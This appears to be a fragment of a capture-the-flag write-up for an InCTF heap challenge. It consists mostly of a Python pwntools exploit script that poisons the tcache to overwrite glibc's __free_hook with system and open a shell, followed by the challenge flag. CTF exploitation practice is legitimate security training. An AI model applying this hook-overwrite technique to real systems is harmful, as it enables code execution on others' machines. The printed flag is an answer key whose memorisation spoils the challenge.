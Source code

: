 ```python

for i in range(7):
	remove(1, i)



view_house(1)


view_person(1, 9)
remove(1, 8)
remove(1, 7)

party(1)


print("malloc hook", hex(libc.sym["__malloc_hook"]))
print("free hook", hex(libc.sym["__free_hook"]))


for i in range(7):
	create_person("A", 0x60, "iiii")



create_person(p64(libc.sym["__free_hook"]), 0x60, p64(libc.sym["__free_hook"]))



create_person("A", 0x60, "AAAA")
create_person("A", 0x60, "AAAA")


create_person(p64(libc.sym["system"]), 0x60, p64(libc.sym["system"]))



destroy(1)




p.interactive()
```


Flag: `inctf{m3h_th4t_w4s_a_trivial_bug_7734736f615f472}`